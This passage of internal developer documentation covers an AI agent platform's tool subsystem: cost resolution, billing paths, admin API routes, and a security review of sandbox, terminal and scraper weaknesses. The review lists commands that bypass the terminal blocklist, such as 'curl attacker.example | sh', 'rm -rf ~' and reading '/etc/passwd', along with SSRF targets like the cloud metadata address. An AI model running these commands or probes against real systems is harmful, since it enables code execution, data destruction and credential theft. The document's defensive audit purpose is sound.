    Q1 -->|row found| R1["amount equals row.internal_cost - source registry"]
    Q1 -->|no row| F{"tool_id in TOOL_FIXED_COST ?"}
    F -->|yes| R2["amount equals fixed - source fixed"]
    F -->|no| R3["amount 0 - source missing - warn once per process"]
    R1 --> AMT
    R2 --> AMT
    R3 --> AMT
    AMT --> Z{"amount greater than 0 ?"}
    Z -->|no| END["ToolChargeResult amount 0"]
    Z -->|yes| B1["run.total_cost_usd plus equals amount"]
    B1 --> B2["CostLedger.add - attribution tool - sku_id - latency_ms"]
    B2 --> END
```

Lookup priority, in order: `IntegrationRegistry.service_sku == tool_id` →
`service_sku` in `TOOL_SKU_MAP[tool_id]` → `TOOL_FIXED_COST[tool_id]` →
`Decimal('0')` with a one-time warning.

```python
# backend/src/ai/governance/tool_cost_resolver.py
TOOL_SKU_MAP: dict[str, list[str]] = {
    "web_search":       ["serp-api-key"],
    "batch_web_search": ["serp-api-key"],
    "scraper_tool":     ["firecrawl-api", "firecrawl"],
    "headless_browser": ["headless-browser"],
    "pdf_generator":    ["pdf-generator"],
    "image_generation": ["imagen-4.0-generate-001"],
}

TOOL_FIXED_COST: dict[str, Decimal] = {
    "image_generation": Decimal("0.04"),
    "video_generation": Decimal("0.05"),
    "video_generate":   Decimal("0.05"),
}
```

### 18.2 What actually runs

**`ToolCostResolver` has no production call site.** Grepping the backend, it is
imported only by
[tests/unit/test_tool_cost_resolver.py](../../backend/tests/unit/test_tool_cost_resolver.py).
The live cost logic is two hand-copied blocks in `step_executor.py`:

| Path | Location | Behaviour |
|---|---|---|
| Direct `TOOL_CALL` step | [step_executor.py:446–504](../../backend/src/ai/step_executor.py:446) | inline `_TOOL_SKU_MAP` + `_TOOL_FIXED_COST` literals; on a registry hit also inserts a `UsageLog` row; on a fixed-cost hit only bumps `run.total_cost_usd` |
| REACT / AFC turn | [step_executor.py:918+](../../backend/src/ai/step_executor.py:918) | a second copy of the same literals |
| `tools.cost_resolver_v2_enabled` | [core/feature_flags.py:86](../../backend/src/ai/core/feature_flags.py:86) | defaults to `True` but **is never read** |

So there are three copies of the SKU map (resolver, direct path, REACT path) and
a fourth price table in `planning/cost_estimator.py`. Adding a priced tool means
touching all of them.

### 18.3 From tool call to billing line

```mermaid
sequenceDiagram
    participant SE as step_executor
    participant IR as IntegrationRegistry
    participant RUN as ExecutionRun
    participant UL as usage_logs
    participant BS as BillingService
    participant CS as CreditService

    SE->>IR: SELECT active row with internal_cost for this company
    alt registry hit
        IR-->>SE: internal_cost
        SE->>RUN: total_cost_usd plus equals cost
        SE->>UL: INSERT sku_id raw_quantity 1 calculated_cost log_metadata tool and latency_ms
    else fixed-cost fallback
        SE->>RUN: total_cost_usd plus equals fixed cost
        Note over UL: no usage_logs row is written on this branch
    else no entry
        Note over SE: warning logged, cost is silently zero
    end
    Note over BS,CS: image_generation additionally self-bills
    SE-->>BS: record_billing_event grouping_type tool grouping_value image_generation
    BS-->>CS: consume credits
```

Three other metering paths exist alongside this one:

| Path | Where | Attribution |
|---|---|---|
| Sandbox runtime seconds | [sandbox/metering.py](../../backend/src/ai/tools/sandbox/metering.py) | `UsageService.log_usage` against `SANDBOX_COST_SKU` (default `sandbox-runtime`, `cost_unit=second`), attribution `SANDBOX` |
| MCP per-call | [mcp/adapter.py:113](../../backend/src/ai/tools/mcp/adapter.py:113) | `CostLedger.add` with `binding.cost_per_call_usd`, attribution `MCP` |
| Image generation self-billing | [media/image_generation.py:372](../../backend/src/ai/tools/media/image_generation.py:372) | `BillingService.record_billing_event` plus `CreditService.consume` |

**Double-charge risk:** `image_generation` self-bills `$0.04` *and* is in both
`TOOL_SKU_MAP` and `TOOL_FIXED_COST`, so the step executor charges it again.
Whether that lands twice depends on whether the company has an active
`imagen-4.0-generate-001` registry row, but on the fixed-cost branch it
definitely does. Worth verifying against [14 — Billing & credits](14-billing-and-credits.md)
before trusting a per-image figure.

**A tool with no SKU is free to the platform's ledger.** All 64 social tools,
all four email tools, all four CRM tools and every document tool resolve to
`$0`. `crm_update_lead` can write to a customer CRM and `linkedin_create_post`
can publish to a company page, and neither leaves a cost line.

---

## 19. The tool management API and UI

### 19.1 Routes

Two routers expose tools.

| Method | Path | Auth | Handler | What it does |
|---|---|---|---|---|
| `GET` | `/api/v1/ai/tools` | any authenticated user | [router.py:468](../../backend/src/ai/router.py:468) | merged built-in + DB list; falls back to `ToolRegistry.list_tools()` if the DB is down |
| `GET` | `/api/v1/ai/tool-registry` | any authenticated user | [tool_management_router.py:34](../../backend/src/ai/tool_management_router.py:34) | same merged list |
| `GET` | `/api/v1/ai/tool-registry/{tool_id}` | any authenticated user | :44 | one DB row by UUID |
| `POST` | `/api/v1/ai/tool-registry` | **`app_admin`** | :59 | create a CUSTOM entry; 409 if the name collides with a built-in |
| `PUT` | `/api/v1/ai/tool-registry/{tool_id}` | **`app_admin`** | :70 | patch any field of a row |
| `DELETE` | `/api/v1/ai/tool-registry/{tool_id}` | **`app_admin`** | :82 | delete; 403 for `tool_type == "BUILT_IN"` |
| `POST` | `/api/v1/ai/tool-registry/{tool_id}/toggle` | **`app_admin`** | :94 | flip `is_enabled` |
| `POST` | `/api/v1/ai/tool-registry/sync-built-in` | **`app_admin`** | :105 | insert a row for every registered tool that has none; returns the count created |
| `POST` | `/api/v1/ai/admin/tools/{tool_id}/experimental?enabled=` | admin | [api/admin.py:479](../../backend/src/ai/api/admin.py:479) | upsert the per-company `tools.experimental.{tool_id}` feature flag |

`RoleChecker(["app_admin"])` gates every write. See
[04 — Auth, RBAC & tenancy](04-auth-rbac-tenancy.md).

### 19.2 The merge

```mermaid
flowchart TD
    A["ToolManagementService.list_all_tools"] --> B["SELECT all tool_registry_entries keyed by name"]
    A --> C["ToolRegistry.list_tools - in memory"]
    A --> D["ToolRegistry._tools get_function_schema for each"]
    C --> E{"DB row for this name ?"}
    E -->|yes| F["DB fields win - description category schema is_enabled - tool_type BUILT_IN"]
    E -->|no| G["synthesise a row - id null - is_enabled true - category from _BUILTIN_CATEGORIES"]
    B --> H["leftover DB-only rows appended as CUSTOM"]
    F --> OUT["merged list"]
    G --> OUT
    H --> OUT
```

### 19.3 What an admin can actually change

| Control | Effect on the running agent |
|---|---|
| `is_enabled` toggle | **None at execution time.** The executor resolves tools through `ToolRegistry.get_tool()`, which never consults the DB. It only hides the tool from `ToolSelectionPanel`, which filters `tool.is_enabled !== false` ([ToolSelectionPanel.tsx:48](../../frontend/src/components/ToolSelectionPanel.tsx:48)). Existing entities that already reference the tool keep calling it. |
| Edit `description` | Shows in the UI. **Does not change the prompt** — `get_function_schema()` uses the in-code `self.description`. |
| Edit `function_schema` | Shows in the UI. Not used at execution. |
| Edit `category`, `display_name` | UI grouping and labels only. |
| Create a CUSTOM tool | Creates a DB row. **Nothing ever instantiates it as a `Tool`.** Calling it returns `Error: Tool 'x' not found`. |
| Delete | Blocked for `BUILT_IN`; allowed for CUSTOM rows. |
| `sync-built-in` | Idempotent — creates rows only for names that have none. It never *updates* an existing row, so a changed description drifts permanently. |
| Experimental flag toggle | Writes a real `feature_flags` row, but §2.3 explains why nothing reads it during execution. |

### 19.4 The UI

[ToolManagement.tsx](../../frontend/src/pages/ai/ToolManagement.tsx) (445 lines)
is the admin screen: search, category filter, type filter (`BUILT_IN` /
`CUSTOM`), counters for built-in / custom / enabled, a create-or-edit modal with
a raw JSON schema textarea, a delete confirmation, and a "sync built-in" button.
Its `CATEGORIES` list — `browser`, `document`, `email`, `execution`, `media`,
`search`, `social`, `utility`, `custom`, `general` — must be kept in sync by
hand with `_BUILTIN_CATEGORIES` on the backend. `social` is in the UI list but
**not one of the 21 entries in `_BUILTIN_CATEGORIES`**, so all 64 social tools
land in `general`.

[ToolSelectionPanel.tsx](../../frontend/src/components/ToolSelectionPanel.tsx)
(107 lines) is the checkbox picker used inside the entity builder. It fetches
`/ai/tools`, filters out disabled tools, and calls back with a plain array of
tool *names* — which is what ends up in `capabilities.tools`.

---

## 20. Security review

### 20.1 Capability matrix

| Tool group | Reaches the internet | Writes files | Spends money | Guards that exist |
|---|---|---|---|---|
| `calculator` | no | no | no | AST allow-list, no `eval`, exponent capped at 1000, div-by-zero check |
| `web_search`, `batch_web_search` | yes — SerpAPI, DuckDuckGo | no | yes — SerpAPI credits | 500-char query cap, 25-query cap, 15 s timeout |
| `scraper_tool` | yes — Firecrawl, arbitrary URL | yes — artifact | yes — Firecrawl credits | 10-URL cap, 30 s timeout. **No URL allow-list, no SSRF guard** |
| `file_writer` | no | yes | no | `os.path.basename`, extension whitelist |
| `pdf_generator`, `docx_tool`, `pptx_tool`, `excel_tool` | no | yes | no | filename sanitisation in `pdf_generator` only; the others accept an arbitrary `file_path` for read and update |
| `document_save` | no | yes | no | `format` enum, path resolved against the tenant sandbox dir |
| `email_ingest`, `email_classify`, `email_draft` | yes — IMAP | no | no | credentials scoped by `company_id` |
| `email_send` | yes — SMTP | no | indirectly — reputational | 18 MB attachment cap. **No recipient allow-list, no HITL gate in the tool** |
| `image_generation` | yes — Vertex | yes | **yes — real dollars** | model must be a configured task default; self-bills and consumes credits |
| `video_generate` | yes — Vertex Veo | yes | **yes — real dollars** | 8 s per clip |
| `video_edit`, `video_add_sound` | no | yes | compute only | 300 s ffmpeg timeout |
| 64 × `social/*` | yes — 16 third-party APIs | no | **yes — the tenant's ad budget** | OAuth token scoping only. EXPERIMENTAL status is not enforced at execution |
| `crm/*` | yes — tenant endpoints, Google | no | no | credentials scoped by `company_id` |
| `sandbox_code` | **yes — unrestricted under the default runtime** | yes — anywhere the OS user can write | compute | see §12.2 |
| `terminal` | **yes — unrestricted under the default runtime** | yes | compute | 13-pattern blocklist |
| `headless_browser` | **yes — any http/https URL** | yes — screenshots | compute | blocks `file:`/`javascript:`/`data:`/`ftp:` schemes; `evaluate` runs arbitrary JS by design |
| `meta_entity_creator` | no | no | indirectly — creates agents that spend | 3-per-execution limit, daily cap, semantic dedupe |
| `meta_entity_executor` | no | no | **yes — triggers a child run** | hard `$1.00` cap |
| `tool_synthesis` | no directly | no | yes — LLM calls | Meta-Agent only, kill switch, AST validator, sandbox test, red team, DRAFT-only registration |
| `mcp__*` | yes — via MCP server | depends | yes | read-only-first policy, per-company allow-list |

### 20.2 The five findings a reviewer should escalate

1. **The default sandbox is not a sandbox.** `SubprocessRuntime` runs
   LLM-authored code as the backend OS user with full filesystem and network
   access and no resource limits. `ContainerRuntime` — which provides the actual
   isolation — is OFF by default at both the settings and flag level. Any
   deployment running untrusted prompts against `sandbox_code` or `terminal`
   should treat that as an outstanding P0.

2. **`terminal`'s blocklist is a speed bump.** Thirteen regexes cannot enumerate
   the dangerous half of a shell. `curl attacker.example | sh`,
   `cat /etc/passwd`, `env`, `rm -rf ~`, and reading the backend's own `.env`
   all pass.

3. **`scraper_tool` and `headless_browser` accept any URL.** No allow-list, no
   private-IP block. `http://169.254.169.254/` and `http://localhost:8000/` are
   both reachable — a classic SSRF path into cloud metadata and internal
   services. `headless_browser` blocks `file:` but the browser could still be
   navigated to an internal host.

4. **Tool status is decorative at execution time.** EXPERIMENTAL and DEPRECATED
   are enforced only by `get_visible_tools_for_company`, which no production
   code calls. Sixty-four unfinished third-party integrations — several capable
   of publishing content or spending ad budget — are one entity-definition line
   away from running.

5. **`is_enabled = false` does not disable anything.** An admin who toggles a
   tool off in the UI will reasonably believe it is off. It is not; the executor
   never reads the DB. Kill-switching a tool today means removing its
   `ToolRegistry.register(...)` line and redeploying.

### 20.3 Secrets handling

Credentials never live in tool code. Every path resolves them per call:

| Source table | Decryption | Consumers |
|---|---|---|
| `integration_registry.encrypted_api_key` | `common.security.decrypt_api_key` (AES-256-GCM) | `web_search`, `scraper_tool`, `image_generation`, `crm/*` |
| `social_connections.encrypted_access_token` / `encrypted_refresh_token` | same | all 64 social tools via `resolve_connection` |
| `email_connections.encrypted_app_password` | same | all four email tools |

The sandbox runtimes build an explicit minimal `env` (`PATH`, `HOME`, `TMPDIR`,
`LANG`, `SAL_USE_VCLPLUGIN`) rather than inheriting `os.environ`, so the
backend's own secrets are not handed to the subprocess. That is the single most
important thing the sandbox does get right — but it does not stop the code from
reading the backend's `.env` file off the host filesystem.

---

## 21. Key files reference

| File | Lines | What it does |
|---|---|---|
| [tools/base.py](../../backend/src/ai/tools/base.py) | 249 | `Tool`, `ToolParams`, `ToolResult`, `ToolStatus`, `ToolRegistry`, visibility gate |
| [tools/\_\_init\_\_.py](../../backend/src/ai/tools/__init__.py) | 269 | imports and registers all 98 tools at import time |
| [tools/README.md](../../backend/src/ai/tools/README.md) | 72 | package map — note the `ToolStatus` list is stale |
| [tools/resilience.py](../../backend/src/ai/tools/resilience.py) | 403 | `FailureKind`, `classify_tool_failure`, `ToolResilience` |
| [tool_executor.py](../../backend/src/ai/tool_executor.py) | 346 | typed and legacy dispatch, `ToolResult` dataclass, `call_counts` enforcement, trace spans |
| [tool_fallback.py](../../backend/src/ai/tool_fallback.py) | 166 | four fallback chains plus their input transforms |
| [tools.py](../../backend/src/ai/tools.py) | 42 | legacy re-export shim; new code should import `src.ai.tools` |
| [tool_management_router.py](../../backend/src/ai/tool_management_router.py) | 113 | 7 CRUD routes under `/api/v1/ai/tool-registry` |
| [tool_management_service.py](../../backend/src/ai/tool_management_service.py) | 269 | merge of in-memory registry with DB rows, `_BUILTIN_CATEGORIES` |
| [orm/tools.py](../../backend/src/ai/orm/tools.py) | 43 | `ToolRegistryEntry` table |
| [governance/tool_cost_resolver.py](../../backend/src/ai/governance/tool_cost_resolver.py) | 207 | `TOOL_SKU_MAP`, `TOOL_FIXED_COST`, `ToolCostResolver` — currently unused in production |
| [governance/rate_limiter.py](../../backend/src/ai/governance/rate_limiter.py) | 112 | Redis sliding-window limiter — zero call sites |
| [step_executor.py](../../backend/src/ai/step_executor.py) | ~1000+ | tool selection, both execution paths, both inline cost blocks |
| [tools/sandbox/runtime.py](../../backend/src/ai/tools/sandbox/runtime.py) | 456 | `SandboxRuntime` Protocol, `SubprocessRuntime`, runtime selection, `run_sandbox_exec` |
| [tools/sandbox/tenant_manager.py](../../backend/src/ai/tools/sandbox/tenant_manager.py) | 282 | per-tenant container lifecycle and isolation flags |
| [tools/sandbox/container_runtime.py](../../backend/src/ai/tools/sandbox/container_runtime.py) | 193 | `docker exec` implementation of the Protocol |
| [tools/sandbox/egress_proxy.py](../../backend/src/ai/tools/sandbox/egress_proxy.py) | 160 | allow-list egress networks and the tinyproxy container |
| [tools/sandbox/metering.py](../../backend/src/ai/tools/sandbox/metering.py) | 65 | sandbox-seconds usage attribution |
| [tools/sandbox/sandbox_provision.py](../../backend/src/ai/tools/sandbox/sandbox_provision.py) | 107 | symlinks Document Factory scripts into each tenant sandbox |
| [tools/social/base.py](../../backend/src/ai/tools/social/base.py) | 173 | `SocialMediaTool` — credentials, HTTP helper, EXPERIMENTAL default |
| [tools/mcp/adapter.py](../../backend/src/ai/tools/mcp/adapter.py) | 166 | `MCPServerBinding`, `MCPToolAdapter`, `bind_mcp_server` |
| [docker/sandbox/Dockerfile](../../backend/docker/sandbox/Dockerfile) | 66 | the `hb-sandbox` image |
| [docker/egress-proxy/tinyproxy.conf](../../backend/docker/egress-proxy/tinyproxy.conf) | 33 | `FilterDefaultDeny` proxy config |
| [frontend/.../ToolManagement.tsx](../../frontend/src/pages/ai/ToolManagement.tsx) | 445 | admin tool registry screen |
| [frontend/.../ToolSelectionPanel.tsx](../../frontend/src/components/ToolSelectionPanel.tsx) | 107 | tool picker inside the entity builder |

---

## 22. Gotchas and things that surprise newcomers

- **Registering a tool is not enough.** Nothing calls a tool unless some
  entity's `capabilities.tools` lists its `tool_id`. Tools declared with
  `usage: "PLANNED"` are excluded from the LLM prompt entirely — only
  `AUTONOMOUS` and `BOTH` are injected
  ([step_executor.py:725](../../backend/src/ai/step_executor.py:725)).

- **The schema and the code can disagree and nothing complains.** The schema is
  what the LLM sees; `run_with_context` receives a serialised JSON blob of the
  arguments. If your schema advertises `expression` but `run()` expects a bare
  string, you get garbage at runtime with no error at import. Always parse
  defensively.

- **Two classes named `ToolResult`.** The Pydantic one in `tools/base.py` is a
  `run_typed` return value; the dataclass in `tool_executor.py` is the canonical
  executor result. They have different fields. Import carefully.

- **The typed path fails silently.** If `get_type_hints(tool.run_typed)` throws
  — a forward reference, a missing import — the executor logs at DEBUG and uses
  the legacy string path instead. Your typed tool will "work" while quietly
  never using its types.

- **Tool instances are process-wide singletons.** Never assign per-call state to
  `self`; two concurrent runs share the object.

- **`tool_call_counts` resets per step, not per run**, despite the docstring.

- **`max_tool_calls` is a prompt string, not a limit.** It can go negative.

- **Four price tables, one truth.** `ToolCostResolver`, the direct path's
  inline literals, the REACT path's inline literals, and
  `planning/cost_estimator.py`. Adding a priced tool means editing all four.

- **`ToolCostResolver`, `RedisRateLimiter` and
  `get_visible_tools_for_company` are all fully implemented, fully tested, and
  never called from production code.** Do not assume a tested module is a live
  module in this codebase — grep for call sites.

- **`is_enabled` in the admin UI does not disable execution.** See §19.3.

- **A "custom tool" created through the API is inert.** There is no loader.

- **`backend/templates/docx/` and `xlsx_engine.py` are unreferenced.** Both are
  leftovers from the Phase 8 document-toolkit design.

- **`sandbox_code` writes files to a `/tmp/sandbox/output` symlink** shared
  across the process, pointing at whichever company most recently executed
  ([sandbox_executor.py:129](../../backend/src/ai/tools/sandbox/sandbox_executor.py:129)).
  Code that writes to the generic path `/tmp/sandbox/output/` under concurrency
  can land in another tenant's directory.

- **`terminal` scans all of `/tmp` to depth 3 after every command** looking for
  new `.pptx/.docx/.xlsx/.pdf` files to auto-register. Any document another
  process writes to `/tmp` during that window gets attributed to this run.

- **`meta_spec_critic` is a `Tool` that is not in the registry.** It is
  instantiated directly. Do not expect to find it via `ToolRegistry.get_tool`.

- **`video_generation` is DEPRECATED but still registered** and still visible
  to any entity that names it, because the visibility gate is not wired in.

- **Social tokens for 8 of 16 platforms cannot be refreshed.** No entry in
  `PLATFORM_REFRESH_CONFIG` means the connection dies when the access token
  expires and a human must reconnect.

---

## 23. Where to go next

- [05 — Agent kernel](05-agent-kernel.md) — the loop that decides which tool to
  call, and the budget that stops it.
- [06 — Entities & the execution pipeline](06-execution-pipeline.md) — how
  `capabilities.tools` gets onto an entity and how a step becomes a tool call.
- [07 — Planning & critics](07-planning-and-critics.md) — how
  `planning/cost_estimator.py` prices a plan before it runs.
- [10 — LLM providers & integrations](10-llm-providers.md) — the
  `IntegrationRegistry` that every tool resolves its API keys from.
- [14 — Billing, costing & credits](14-billing-and-credits.md) — where
  `usage_logs`, `CostLedger` and `CreditService` take the numbers from §18.
- [15 — Governance, HITL & feature flags](15-governance-and-hitl.md) — the
  `FeatureFlags` service behind `tools.experimental.*`,
  `tools.resilience_v2_enabled` and `sandbox.container_runtime_enabled`.
- [18 — Infrastructure & deployment](18-infrastructure-and-deployment.md) —
  building and pinning the `hb-sandbox` and `hb-egress-proxy` images.
- Design intent: [`docs/phase11/plan/10_track_8_tool_and_cost.md`](../phase11/plan/10_track_8_tool_and_cost.md)
  for the cost/resilience consolidation, and `docs/phase12/plans/02_sandbox_browser_terminal.md`
  for the sandbox hardening plan. Where they disagree with this document, the
  code is the truth and the difference is noted above.
